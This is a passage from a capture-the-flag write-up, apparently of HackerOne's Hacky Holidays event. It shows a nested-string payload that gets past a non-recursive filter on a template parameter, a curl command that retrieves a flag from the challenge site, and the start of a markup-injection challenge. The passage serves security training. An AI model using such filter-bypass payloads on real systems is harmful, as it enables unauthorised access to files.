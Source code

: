This works because:

1. Replacing `admin.php` in `secretadsecretaadmin.phpdmin.phpmin.php` results in `secretadsecretadmin.phpmin.php`
2. Replacing `secretadmin.php` in `secretadsecretadmin.phpmin.php` results in `secretadmin.php`

```bash
$ curl -s https://hackyholidays.h1ctf.com/my-diary/?template=secretadsecretaadmin.phpdmin.phpmin.php | grep flag
    <h4 class="text-center">flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}</h4>
```

Success!

Flag: `flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}`

## Flag 7: Hate Mail Generator

Starting out, I could see I had access to some sort of email campaign management application.

![campaign management](/assets/2021-01-07-hacky-holidays/flag7.a.png)

Clicking `Create New` prompted for `name`, `subject` and `markup` fields. Having access to a `markup` field made me think this was going to be something like XSS or SSTI.

Looking at the campaign which was already there provided another interesting bit of info:
